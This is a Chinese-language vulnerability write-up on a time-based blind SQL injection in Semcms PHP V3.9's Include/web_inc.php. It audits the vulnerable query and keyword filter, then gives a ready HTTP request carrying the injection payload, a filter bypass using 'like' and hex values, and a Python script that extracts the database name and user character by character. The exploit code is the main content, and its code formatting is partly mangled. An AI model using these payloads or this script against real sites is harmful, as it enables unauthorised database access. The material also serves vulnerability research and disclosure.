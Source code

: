 ```yaml
---
title: Semcms PHP(多语)版 V3.9 sql注入漏洞
id: zhfly3124
---
```


# Semcms PHP(多语)版 V3.9 sql注入漏洞

## 一、漏洞简介

## 二、漏洞影响

Semcms PHP(多语)版 V3.9

## 三、复现过程

### 漏洞详情

漏洞文件为Include下的web_inc.php文件

包

```
POST /Include/web_inc.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: keep-alive
Cookie: scusername=%E6%80%BB%E8%B4%A6%E5%8F%B7; scuseradmin=Admin; scuserpass=c4ca4238a0b923820dcc509a6f75849b
Upgrade-Insecure-Requests: 1
Content-Length: 64
Content-Type: application/x-www-form-urlencoded `languageID=0 or if(substr(database(),1,1) like 0x6D,sleep(5),1);` 
```

基于时间的注入

### 代码审计

查看web_inc.php的关键代码

```
if (isset($_POST["languageID"])){$Language=test_input(verify_str($_POST["languageID"]));}else{$Language=verify_str($Language);}

if(!empty($Language)){

```
 //网站SEO设定

  $query=$db_conn-&gt;query("select * from sc_tagandseo where languageID=$Language");
  $row=mysqli_fetch_array($query);
  $tag_indexmetatit=datato($row['tag_indexmetatit']);// 首页标题
  $tag_indexkey=datato($row['tag_indexkey']);// 首页关键词
  $tag_indexdes=datato($row['tag_indexdes']);// 首页描述 
``` `…` 
```

可以看到查询语句没有利用单引号闭合

跟入过滤函数查看

```
function test_input($data) { 
      $data = str_replace("%", "percent", $data);
      $data = trim($data);
      $data = stripslashes($data);
      $data = htmlspecialchars($data,ENT_QUOTES);
      return $data;

}

function inject_check_sql($sql_str) {

```
 return preg_match('/select|insert|=|%|&lt;|between|update|\'|\*|union|into|load_file|outfile/i',$sql_str); 
```

}

function verify_str($str) {

if(inject_check_sql($str)) {

```
 exit('Sorry,You do this is wrong! (.-.)');
} 

return $str; 
``` `}` 
```

过滤了一些关键字，正常的联合注入是没有办法了，可以时间盲注

利用`if`和`sleep`构造payload，因为`<`,`=`被过滤且存在`htmlspecialchars`函数，利用like代替

```
languageID=0 or if(substr(database(),1,1) like 0x6e,sleep(5),1); 
```

附上脚本

```
# !/usr/bin/python3
# -*- coding:utf-8 -*-
# author: Forthrglory

import requests

def getDatabase(url):

s = ‘’

r = requests.session()

head = {‘Content-Type’:‘application/x-www-form-urlencoded’}

```
for i in range(1,9):
    for j in range(97,122):
        data = 'languageID=0 or if(substr(database(),%s,1) like %s,sleep(5),1);' % (i,hex(j))

        result = r.post(url, data, headers=head)

        if(result.elapsed.total_seconds() &gt; 5):
            s = s + chr(j)
            print(s)
            break
print('database=' + s) 
```

def getUser(url):

s = ‘’

r = requests.session()

head = {‘Content-Type’:‘application/x-www-form-urlencoded’}

```
for i in range(1,21):
    for j in range(64,90):
        data = 'languageID=0 or if(substr(user(),%s,1) like %s,sleep(5),1);' % (i,hex(j))

        result = r.post(url, data, headers=head)

        if(result.elapsed.total_seconds() &gt; 5):
            s = s + chr(j).lower()
            print(s)
            break
print('user=' + s) 
```

if **name** == ‘**main**’:

url = ‘[http://127.0.0.1/Include/web_inc.php](http://127.0.0.1/Include/web_inc.php)’

```
s = getDatabase(url)
u = getUser(url) 
``` 
```

运行截图

![image](../img/dc8682fbdb9886e3caccc21cd76d7f66.png)

![image](../img/48fd42f45c1df272f00e48691c108a5a.png)

不过因为过滤了select，暂时不知道怎么注出数据ORZ，比如说注出user表中的密码之类的，如果有师傅愿意不吝赐教，这里万分感谢

## 参考链接

> https://xz.aliyun.com/t/7122